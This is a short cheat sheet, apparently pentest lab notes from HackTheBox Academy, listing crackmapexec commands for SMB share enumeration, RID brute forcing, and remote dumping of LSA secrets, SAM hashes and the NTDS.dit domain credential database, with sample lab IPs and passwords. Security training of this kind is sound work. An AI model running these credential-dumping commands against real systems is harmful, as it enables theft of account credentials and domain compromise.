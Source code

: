 **OUTDATED!** Newer one is [[nxc]]
```bash
$ crackmapexec smb <IP> --shares -u '' -p ''
```

## Dump LSA/SAM Remotely
```shell-session
$ crackmapexec smb <IP> --local-auth -u bob -p HTB_@cademy_stdnt! --<lsa/sam>
```

## Bruteforce RIDs
```shell-session
$ crackmapexec smb <IP> -u 'guest' -p '' --rid-brute
```
## Dump NTDS.dit
```shell-session
$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```